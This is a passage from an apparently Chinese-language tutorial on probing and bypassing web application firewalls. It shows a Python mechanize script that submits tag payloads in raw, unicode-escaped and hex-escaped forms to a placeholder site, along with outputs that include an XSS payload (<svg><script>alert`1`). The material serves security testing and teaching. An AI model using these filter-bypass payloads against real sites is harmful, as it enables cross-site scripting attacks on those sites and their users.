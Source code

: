 没见过的代码看这里：

1. 第一行，定义了包含3个Payload的列表
1. 第二行，for循环，取出每个Payload来尝试绕过

没有部署WAF的时候，程序的输出是这样的：

```html
<html>
<body>
    Data from the form : <svg><script>alert&grave;1&grave;<p><br>
</body>
</html>
No Firewall Present
No Firewall Present
No Firewall Present
No Firewall Present
```

## 编码绕过WAF

假设WAF会过滤HTML标签中的关键字符，如`<`和`>`，可以尝试使用Unicode或Hex实体编码替换，如果它们在输出时被转换为原始字符形态，就可以作为一个突破口继续尝试绕过。

终于是最后的代码了：

```python
listofPayloads = ['<b>', '\u003cb\u003e', '\x3cb\x3e']
for payLoads in listofPayloads:
    maliciousRequest = mec.Browser()
    formName = 'waf'

    maliciousRequest.open("http://thisisafakewebsite.net/testWAF.html")
    maliciousRequest.select_form(formName)
    maliciousRequest.form['data'] = payLoads
    maliciousRequest.submit()

    response = maliciousRequest.response().read()
    print "---------------------------------------------------"
    print response
    print "---------------------------------------------------"
```

来看看输出会是什么样子：

```html
---------------------------------------------------
<html>
<body>
    Data from the form : &lt;b&gt;<br>
</body>
</html>
---------------------------------------------------
---------------------------------------------------
<html>
<body>
    Data from the form : \u003cb\u003e<br>
</body>
</html>
---------------------------------------------------
---------------------------------------------------
<html>
<body>
    Data from the form : <b><br>
</body>
</html>
---------------------------------------------------
```
